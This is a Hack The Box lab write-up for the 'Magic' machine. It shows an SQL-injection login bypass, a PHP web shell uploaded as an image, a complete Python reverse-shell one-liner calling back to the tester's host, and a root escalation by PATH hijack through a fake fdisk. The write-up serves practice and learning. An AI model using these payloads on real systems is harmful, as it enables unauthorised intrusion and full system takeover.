 ```yaml
---
title: Magic Writeup
author: Eno
date: 2020-04-20 11:30am
categories: [hackthebox]
tags: [hackthebox, writeup, magic]
math: true
image: /assets/img/htb/Magic/magic_infocard.png
---
```


### Let's do a NMAP scan

![dekstop](/assets/img/htb/Magic/01_nmap.png)


Browsing to http://10.10.10.185 we get a page with images and on the bottom left a login to upload images.


![dekstop](/assets/img/htb/Magic/02_login_message.png)


Let's click on the login link.


![dekstop](/assets/img/htb/Magic/03_login_blank.png)


I tried default top 10 usernames and passwords combos but nothing.

Since we have no credentials, we can try SQL injection

```
username: 'or '1'='1

password: 'or '1'='1
```

![dekstop](/assets/img/htb/Magic/04_login_sql.png)

We get prompted with an upload page for images.

![dekstop](/assets/img/htb/Magic/05_upload_img.png)

Let's see what can be uploaded. Let's just click upload.

![dekstop](/assets/img/htb/Magic/06_upload_img_error.png)

Only JPG, JPEG and PNG files are allowed. We need to bypass the filter.

Let's first upload a JPEG file and see where it saves it to.

When we upload a picture it adds it to the front page on the slider and so we can right click to view image and we can see it saves it under http://10.10.10.185/images/uploads/

Now let's do some magic

Take any JPG,JPEG or PNG inject it with some code and then rename the file.

![dekstop](/assets/img/htb/Magic/07_cmd_image_insert.png)

Upload this file via the upload page

In another terminal run nc -lvnp 9991

The only payload I found to work was the python method

Now point your browser or use curl to the following URL

http://10.10.10.185/images/uploads/lordcommander.php.jpeg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",9991));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

![dekstop](/assets/img/htb/Magic/08_img_rev_shell.png)

We have a shell!

Let's get an interactive shell

<ol><li>python -c 'import pty; pty.spawn("/bin/bash")'</li><li>ctrl + z (put's the nc into the background)</li><li>echo $TERM (this gets what your term is set as)</li><li>stty -a (this gets your windows size)</li><li>stty raw -echo (NOTE: you will not see any output after this)</li><li>fg (go back to the nc)</li><li>reset (this resets the terminal settings on the remote machine</li><li>In the Terminal type, type in the $TERM output you got, in my case it was xterm-256color. </li></ol>

NOTE: as of recent, this method I found has not been working as intended and sometimes hands the termminal. 

After enumerating a bit we get the following.

![dekstop](/assets/img/htb/Magic/09_db_details.png)

I tried to use the password to login via ssh and su but both failed.

This is not the password for the user.

Let's enumerate the database. There is no mysql client installed so the only way now is to do a mysqldump.

![dekstop](/assets/img/htb/Magic/10_db_dump.png)

We then find this in the dump.

![dekstop](/assets/img/htb/Magic/11_db_creds.png)

We have some creds. Password reuse?

Let us just su to the user with the password.

![dekstop](/assets/img/htb/Magic/12_user_login_png.png)

user flag achieved!

Now for root.

We first have to upload some enumerating scripts.

I uploaded both LinEnum and LinPEAS and found this pretty interesting:

![dekstop](/assets/img/htb/Magic/13_exec_files.png)

/bin/sysinfo is executable and the user group has permissions to run it.

There is another tool called pspy64 which monitors linux processes and we can use this to see what sysinfo does in the background. So we run /bin/sysinfo and monitor pspy64 and see the following.

![dekstop](/assets/img/htb/Magic/14_fdisk.png)

sysinfo calls a few files and seems like we can inject our own path to point to a custom created fdisk file to maybe create a reverse shell?

First in another terminal run our nc -lvnp 9994 

Back to the magic terminal and let us add /tmp into the system PATH

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/bin:/usr/games:/usr/local/games:/snap/bin:/tmp
```

We then create a file in /tmp with the following.

![dekstop](/assets/img/htb/Magic/15_python_shell.png)

Make it executable and then run /bin/sysinfo again and we watch pspy64.

![dekstop](/assets/img/htb/Magic/16_run_script.png)

You can see it has now executed our code from the fdisk file we created in the /tmp directory instead of the actual operating system's fdisk!

Let us pop to the terminal where we can our nc.

![dekstop](/assets/img/htb/Magic/17_shell_pop.png)

WE HAVE ROOT!
